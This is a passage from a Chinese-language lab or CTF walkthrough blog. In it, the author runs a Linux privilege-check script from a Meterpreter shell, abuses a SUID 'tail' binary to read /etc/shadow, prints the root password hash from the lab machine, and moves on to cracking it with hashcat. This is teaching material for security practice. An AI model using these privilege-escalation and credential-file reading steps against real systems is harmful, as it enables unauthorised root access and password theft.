 ```
 
/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');
```

然后我们上传一个Linux提权信息收集脚本linuxprivchecker.py：
![818602_6Q99PGQ99APHXZ5](/blog.github.io/images/818602_6Q99PGQ99APHXZ5.png)
然后运行这个脚本：

```
meterpreter > chmod 744 /tmp/linuxprivchecker.py
meterpreter > shell
Process 141 created.
Channel 10 created.
python /tmp/linuxprivchecker.py
```

![818602_DUD3N4UGT8UWPK3](/blog.github.io/images/818602_DUD3N4UGT8UWPK3.png)
仔细阅读脚本输出的内容，我们发现到tail被设置了SUID：
![818602_AENTPTZY5EY5R64](/blog.github.io/images/818602_AENTPTZY5EY5R64.png)
直接用tail读取shadow文件：

```
meterpreter > shell
Process 344 created.
Channel 3 created.
tail -c1G /etc/shadow
root:$6$qoj6/JJi$FQe/BZlfZV9VX8m0i25Suih5vi1S//OVNpd.PvEVYcL1bWSrF3XTVTF91n60yUuUMUcP65EgT8HfjLyjGHova/:17951:0:99999:7:::
daemon:*:17931:0:99999:7:::
bin:*:17931:0:99999:7:::
sys:*:17931:0:99999:7:::
sync:*:17931:0:99999:7:::
games:*:17931:0:99999:7:::
man:*:17931:0:99999:7:::
lp:*:17931:0:99999:7:::
mail:*:17931:0:99999:7:::
news:*:17931:0:99999:7:::
uucp:*:17931:0:99999:7:::
proxy:*:17931:0:99999:7:::
www-data:*:17931:0:99999:7:::
backup:*:17931:0:99999:7:::
list:*:17931:0:99999:7:::
irc:*:17931:0:99999:7:::
gnats:*:17931:0:99999:7:::
nobody:*:17931:0:99999:7:::
_apt:*:17931:0:99999:7:::
```

![818602_NQF3TADYEZBV9W9](/blog.github.io/images/818602_NQF3TADYEZBV9W9.png)
这里得到了root用户密码的hash值，我们先把hash值保存到文件root.hash中，然后利用hashcat破解它：
